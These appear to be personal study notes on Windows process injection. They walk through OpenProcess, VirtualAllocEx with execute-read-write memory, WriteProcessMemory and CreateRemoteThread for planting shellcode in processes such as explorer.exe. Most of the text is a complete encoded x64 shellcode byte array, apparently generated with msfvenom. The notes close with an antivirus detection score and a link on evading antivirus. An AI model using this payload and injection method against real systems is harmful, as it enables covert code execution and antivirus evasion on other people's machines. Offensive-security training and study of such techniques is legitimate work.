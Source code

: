 http://www.pinvoke.net/

page - 131

# Process Injection

We are going to inject our shellcode to various processses to make it work.

## finding a home for shellcode 

We can run our shellcode either in an unlikely to terminate process like explorer.exe 
or start a hidden process notepad.exe
or we migrate to a process like svchost.exe

Process vs thread

A process has its own virtual memory space, and this space isnot meant to directly interact with other applications.

Thread executes the compiled assembly code of an application. Each thread has its own memory stack.


We will try to open one process from another using Win32 OpenProcess API.

We will modify its memory space using VirtualAllocEx, and WriteProcessMemory and start process with CreateRemoteThread.

### Openprocess API 

opens an existing process and needs 3 parameters. dwDesiredAccess establishes the access rights we require on that process. bInheritHandle - this determines if the handle can be inherited by a child process. dwProcessId - This is the process Id of the remote process.

Integrity level concept: We can access a process with lower integrity level from a higher intergrity level.

VirtualAllocEx - this is used to allocate memory to our shellcode to a remote process

```c#
LPVOID VirtualAllocEx(
 HANDLE hProcess, // handle to process
 LPVOID lpAddress, // starting address of memory to wrtie our injected instructions
if the address mentioned is already in use then execution will fail so better to pass NULL
 SIZE_T dwSize, // size of allocation we will set as 0x1000
 DWORD flAllocationType,// MEM_COMMIT and MEM_RESERVE 0x3000
 DWORD flProtect // 0x40 PAGE_EXECUTE_READWRITE
)
```

WriteProcessMemory - We can copy data to remote process. (RTLMoveMemory doesn't support this.)


```C#
[DllImport("kernel32.dll")]
static extern bool WriteProcessMemory(
     IntPtr hProcess,// process handle
     IntPtr lpBaseAddress,/// newly allocated memory address 
     byte[] lpBuffer,// address of bytearray containing the shell code
     Int32 nSize,// size of shellcode
     out IntPtr lpNumberOfBytesWritten // a pointers to memory localtion to output how much data was copied
);
```

to get shellcode use msfvenom

CreateRemoteThread - as we cannot just call CreateThread.

![](notepad_permissions.png)

### creating a code based injection



```
unsigned char buf[] =                                                                                                                                                                                                                    
"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef\xff"                                                                                                                                                                           
"\xff\xff\x48\xbb\x12\xf5\x6a\xb2\xc8\xd7\x9c\xae\x48\x31\x58"                                                                                                                                                                           
"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xee\xbd\xe9\x56\x38\x3f"                                                                                                                                                                           
"\x5c\xae\x12\xf5\x2b\xe3\x89\x87\xce\xff\x44\xbd\x5b\x60\xad"                                                                                                                                                                           
"\x9f\x17\xfc\x72\xbd\xe1\xe0\xd0\x9f\x17\xfc\x32\xbd\xe1\xc0"                                                                                                                                                                           
"\x98\x9f\x93\x19\x58\xbf\x27\x83\x01\x9f\xad\x6e\xbe\xc9\x0b"
"\xce\xca\xfb\xbc\xef\xd3\x3c\x67\xf3\xc9\x16\x7e\x43\x40\xb4"
"\x3b\xfa\x43\x85\xbc\x25\x50\xc9\x22\xb3\x18\x5c\x1c\x26\x12"
"\xf5\x6a\xfa\x4d\x17\xe8\xc9\x5a\xf4\xba\xe2\x43\x9f\x84\xea"
"\x99\xb5\x4a\xfb\xc9\x07\x7f\xf8\x5a\x0a\xa3\xf3\x43\xe3\x14"
"\xe6\x13\x23\x27\x83\x01\x9f\xad\x6e\xbe\xb4\xab\x7b\xc5\x96"
"\x9d\x6f\x2a\x15\x1f\x43\x84\xd4\xd0\x8a\x1a\xb0\x53\x63\xbd"
"\x0f\xc4\xea\x99\xb5\x4e\xfb\xc9\x07\xfa\xef\x99\xf9\x22\xf6"
"\x43\x97\x80\xe7\x13\x25\x2b\x39\xcc\x5f\xd4\xaf\xc2\xb4\x32"
"\xf3\x90\x89\xc5\xf4\x53\xad\x2b\xeb\x89\x8d\xd4\x2d\xfe\xd5"
"\x2b\xe0\x37\x37\xc4\xef\x4b\xaf\x22\x39\xda\x3e\xcb\x51\xed"
"\x0a\x37\xfb\x76\xa0\xef\x9c\x4d\xc6\x58\xb2\xc8\x96\xca\xe7"
"\x9b\x13\x22\x33\x24\x77\x9d\xae\x12\xbc\xe3\x57\x81\x6b\x9e"
"\xae\x03\xa9\x60\xb8\xce\xdd\xdd\xfa\x5b\x7c\x8e\xfe\x41\x26"
"\xdd\x14\x5e\x82\x4c\xb5\x37\x02\xd0\x27\xf8\x9d\x6b\xb3\xc8"
"\xd7\xc5\xef\xa8\xdc\xea\xd9\xc8\x28\x49\xfe\x42\xb8\x5b\x7b"
"\x85\xe6\x5c\xe6\xed\x35\x22\x3b\x0a\x9f\x63\x6e\x5a\x7c\xab"
"\xf3\x72\x3d\x93\x71\xf2\x0a\xbf\xfa\x41\x10\xf6\xbe\x53\xad"
"\x26\x3b\x2a\x9f\x15\x57\x53\x4f\xf3\x17\xbc\xb6\x63\x7b\x5a"
"\x74\xae\xf2\xca\xd7\x9c\xe7\xaa\x96\x07\xd6\xc8\xd7\x9c\xae"
"\x12\xb4\x3a\xf3\x98\x9f\x15\x4c\x45\xa2\x3d\xff\xf9\x17\xf6"
"\xa3\x4b\xb4\x3a\x50\x34\xb1\x5b\xea\x36\xa1\x6b\xb3\x80\x5a"
"\xd8\x8a\x0a\x33\x6a\xda\x80\x5e\x7a\xf8\x42\xb4\x3a\xf3\x98"
"\x96\xcc\xe7\xed\x35\x2b\xe2\x81\x28\x54\xe3\x9b\x34\x26\x3b"
"\x09\x96\x26\xd7\xde\xca\xec\x4d\x1d\x9f\xad\x7c\x5a\x0a\xa0"
"\x39\xc6\x96\x26\xa6\x95\xe8\x0a\x4d\x1d\x6c\x6c\x1b\xb0\xa3"
"\x2b\x08\x6e\x42\x21\x33\xed\x20\x22\x31\x0c\xff\xa0\xa8\x6e"
"\xff\xea\x49\x28\xa2\x99\x15\x55\xe6\x18\xdd\xa2\xd7\xc5\xef"
"\x9b\x2f\x95\x67\xc8\xd7\x9c\xae";

```

Using mingw compiler https://www.msys2.org/


https://code.visualstudio.com/docs/cpp/config-mingw#:~:text=From%20the%20main%20menu%2C%20choose%20Run%20%3E%20Add%20Configuration..,build%20and%20debug%20active%20file. 

cttrl + shift + b - to build

with the pe injection it works from here - 

https://www.ired.team/offensive-security/code-injection-process-injection/process-injection

scan result 5/26

Trying to evade the AV we have - https://0xhop.github.io/evasion/2021/04/19/evasion-pt1/








